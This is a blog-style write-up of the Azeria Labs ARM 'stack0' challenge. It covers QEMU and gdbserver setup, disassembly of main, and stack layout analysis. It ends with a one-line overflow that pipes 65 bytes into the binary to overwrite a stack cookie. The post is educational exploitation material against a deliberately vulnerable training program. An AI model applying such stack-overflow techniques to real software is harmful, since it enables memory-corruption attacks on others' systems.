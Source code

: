 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part I"
---
```


This is the first of a serie of posts about exploiting 32 bits Arm
binaries.

These [challenges](https://github.com/azeria-labs/ARM-challenges) were
[taken](https://azeria-labs.com/part-3-stack-overflow-challenges/)
from [Azeria Labs](https://azeria-labs.com).<!--more-->

## Setup

{% marginmarkdowncode
'
For the records:
```cpp
qemu-system-arm
  -M versatilepb
  -cpu arm1176
  -m 256
  -drive "file=2020-12-02-raspios-buster-armhf-lite.img,if=none,index=0,media=disk,format=raw,id=disk0"
  -device "virtio-blk-pci,drive=disk0,disable-modern=on,disable-legacy=off"
  -net "user,hostfwd=tcp::3022-:22,hostfwd=tcp::9999-:9999"
  -dtb versatile-pb-buster-5.4.51.dtb
  -kernel kernel-qemu-5.4.51-buster
  -append "root=/dev/vda2 panic=1"
  -no-reboot
  -net nic
  -nographic
```
'
'' %}

Let's [spin a Rasbian](/book-of-gehn/articles/2020/12/15/Qemulating-Rasbian-ARM.html)
first. Make your to forward a port for the `ssh` and another for the
`gdbserver` so we can connect to them from the host machine.

There are [7 binaries](https://github.com/azeria-labs/ARM-challenges)
compiled for ARM for 32 bits, not stripped and dynamically linked.

We will focus on `stack0` for now.

```shell
$ file stack0
stack0: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux-armhf.so.3,
for GNU/Linux 2.6.32,
BuildID[sha1]=1171fa6db1d5176af44d6d462427f8d244bd82c8,
not stripped
```

Spin the `gdbserver`:

```shell
pi@raspberrypi:~$ gdbserver :9999 stack0
Process /home/pi/stack0 created; pid = 410
Listening on port 9999
```

And now, from the host, connect your `gdb` to the server. In my case I
will use [pwndbg](https://github.com/pwndbg/pwndbg), an enhanced version
of `gdb`.

```shell
$ gdb-multiarch -q -x ~/scripts/pwndbg.gdbinit
pwndbg> target extended-remote :9999
Remote debugging using <...>
Reading /home/pi/stack0 from remote target...
```

In addition to the debugger, I will use an
[interactive assembler](https://github.com/bad-address/iasm) to play
with some Arm code that I may not understand but which I don't want to
run in the debugger
(see [my post about `iasm`](/book-of-gehn/articles/2021/01/09/Interactive-Assembler.html)).

## Stack initialization

The stack initialization of `main` is as follows:

```nasm
pwndbg> pdisass &main
 ► 0x1044c <main>       push   {fp, lr}
   0x10450 <main+4>     add    fp, sp, #4
   0x10454 <main+8>     sub    sp, sp, #0x50
   0x10458 <main+12>    str    r0, [fp, #-0x50]
   0x1045c <main+16>    str    r1, [fp, #-0x54]
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
```

The `lr` and the `fp` are pushed in that order (0x8 bytes),
the `fp` is updated and points to the pushed `lr` (`add fp, sp, #4`)
and then 0x50 bytes are allocated (`sub sp, sp, #0x50`).

The arguments of `main`, registers `r0` and `r1`, are saved on *top* of
the stack (`str r0, [fp, #-0x50]`, `str r1, [fp, #-0x54]`).

And then the cookie is stored:

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
```

This is our target.

## Call to `gets`

In the `main` function a call to `gets` is done with a buffer
allocated in the stack:

```nasm
pwndbg> pdisass
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
 ► 0x10470 <main+36>    bl     #gets@plt <gets@plt>
        r0: 0xbefffb6c ◂— 0x0
        r1: 0xbefffd04 —▸ 0xbefffe14 ◂— '/home/pi/stack0'
        r2: 0xbefffd0c —▸ 0xbefffe24 ◂— 'SHELL=/bin/bash'
        r3: 0xbefffb6c ◂— 0x0
```

The registers before the call to `gets` were:

```
------  ----  ------  ---------  ------  ---------  ------  ------
    r0  1fb4  r1      eeee:eeee  r2      0          r3      1fb4
    r4  0     r5      0          r6      0          r7      0
    r8  0     r9/sb   0          r10     0          r11/fp  1ffc
r12/ip  0     r13/sp  1fa8       r14/lr  aaaa:aaaa  r15/pc  100:20
------  ----  ------  ---------  ------  ---------  ------  ------
```

And the manually-annotated stack was:

```python
100:20> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

`r3` points *almost* to the begin of the bunch of zeros, just 4
bytes below.

We can verify this writing and inspecting the memory:

```python
100:20> ;! M[r3:] = b"AAAABBBBCCCC"
100:20> ;! M[sp:]
[
        \xee\xee\xee\xee
        \xdd\xdd\xdd\xdd
        \x00\x00\x00\x00    == these are still zeros
buf --> AAAA
        BBBB
        CCCC
        \x00\x00\x00\x00
        ...
]
```

Indeed, the destination buffer of `gets` has 0x48 - 0x8 bytes
(we subtract 4 bytes for the cookie and 4 bytes for the stored `fp`)

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

## The target

The program stores a cookie initialized to zero in the stack *before*
the call to `gets` and then it checks its value.

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
    ...
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
   0x10474 <main+40>    ldr    r3, [fp, #-8]
   0x10478 <main+44>    cmp    r3, #0
```

If it is still zero jumps to a `puts` that prints `"Try again?"`.

But if an overflow occurs, the cookies will be non-zero and another
`puts` will executed.

This is the print that we are looking for:

```nasm
   0x10480 <main+52>    ldr    r0, [pc, #0x18]
 ► 0x10484 <main+56>    bl     #puts@plt <puts@plt>
```

The address of the string to print is stored in the code segment, 0x18
bytes below the program counter at 0x10480.

However 0x10480 + 0x18 == 0x10498 is not correct:

```nasm
pwndbg> x/4 0x10498
0x10498 <main+76>:  0xe24bd004  0xe8bd8800  0x0001051c  0x00010548
```

почему?

> "When using R15 as the base register you must remember it contains an
> address 8 bytes on from the address of the current instruction."
> <cite class="epigraph">Arm documentation</cite>

So it is 0x10498 + 0x8:

```nasm
pwndbg> x/4 0x104a0
0x104a0 <main+84>:  0x0001051c  0x00010548  0xe92d43f8  0xe1a07000

pwndbg> p (char*)0x0001051c
$21 = 0x1051c "you have changed the 'modified' variable"
```

## The exploit

Writing 0x40+1 bytes we will overflow the buffer overwriting the cookie
in the stack but without corrupting the stack further.

```shell
pi@raspberrypi:~$ echo -n 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | ./stack0
you have changed the 'modified' variable
```
